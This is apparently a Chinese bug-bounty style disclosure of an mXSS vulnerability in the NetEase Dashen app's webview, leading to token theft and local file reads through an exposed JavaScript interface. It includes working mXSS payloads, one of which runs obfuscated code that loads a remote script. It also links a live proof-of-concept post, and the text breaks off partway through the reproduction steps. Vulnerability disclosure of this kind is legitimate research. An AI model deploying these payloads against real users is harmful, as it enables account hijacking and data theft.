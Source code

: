 ```yaml
---
layout: post
title:  "高危：网易大神手机客户端Webview mxss漏洞"
date:   2023-10-20 10:26:18 +0800
categories: xss jsinterface
---
```


## 漏洞名称

> 网易大神手机客户端存在Webview mxss漏洞，串连不安全的JS interface接口，实现用户敏感信息搜集、账户劫持(请求token泄露)和手机文件上传。这个js interface是注入的，每个打开的网站都能够访问到，但是只有163.com域名能合法调用。因此在163.com域名下找到xss就行。

## 漏洞类型
> 客户端漏洞，存储型XSS，文件上传，敏感信息收集

## 危害等级
> 高危

## 漏洞URL

- POC网页 https://m.ds.163.com/square/63ea17eec8dc9d00019266fe/?type=%E6%9C%80%E6%96%B0%E8%AE%A8%E8%AE%BA 使用chrome手机模式查看，打开后在终端自动打印mxss by 0x5r33!!!
- 视频链接：链接：https://pan.baidu.com/s/1ujV4aKjagPCMNhhxELePgg 提取码：1314

## 关键数据包

    payload: <math><mtext><option><FAKEFAKE><option></option><mglyph><svg><mtext><textarea><a title="</textarea><svg onload=alert(document.domain)>">

    payload2：<math><mtext><option><FAKEFAKE><option></option><mglyph><svg><mtext><textarea><a title="</textarea><svg onload=eval(atob('Y29uc29sZS5sb2coJ214c3MgYnkgMHg1cjMzISEhJyk7dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzY3JpcHQuc3JjPSdodHRwczovL3VyY2hpbi5ub3Nkbi4xMjcubmV0L3lzJTJGMDcwYjA4MjUyZGIzNDhhMmJlMjU0NDI3MjIzYzEzMTknO2RvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdib2R5JylbMF0uYXBwZW5kQ2hpbGQoc2NyaXB0KTs='))>">

    POC: https://m.ds.163.com/square/63ea17eec8dc9d00019266fe/?type=%E6%9C%80%E6%96%B0%E8%AE%A8%E8%AE%BA 使用chrome手机模式查看，打开后在终端自动打印mxss by 0x5r33!!!


## 漏洞描述
网易大神客户端中，没有对用户发帖进行过滤，全靠手机版网页前端进行过滤，由于手机版网页前端使用了不安全的dompurify组件，该组件受到mXSS（突变型XSS）攻击，导致攻击者能够绕过该组件的过滤，从而在网页上嵌入XSS代码。而该手机版网页通过大神内置的webview进行访问后，xss能够获取客户端暴露的webview javascript interface接口。而该类接口暴露了用户敏感信息例如手机号、请求token、粘贴板数据，更为严重的是暴露了客户端的文件读取接口，攻击者能够读取用户手机指定文件，包括外置存储卡文件和网易大神的私有文件，照成更严重的信息泄漏，不外乎大神应用的数据库、sharedprefs等，造成潜在的账户劫持。

### 详细说明
请按照逻辑对漏洞复现进行描述，提供危害说明和测试步骤。若使用工具复现漏洞，应提供工具详情
#### 漏洞触发
1. 进入大神网页版https://ds.163.com/，然后用chrome模拟手机端，刷新后，网页自动跳转到手机端网址：https://m.ds.163.com/
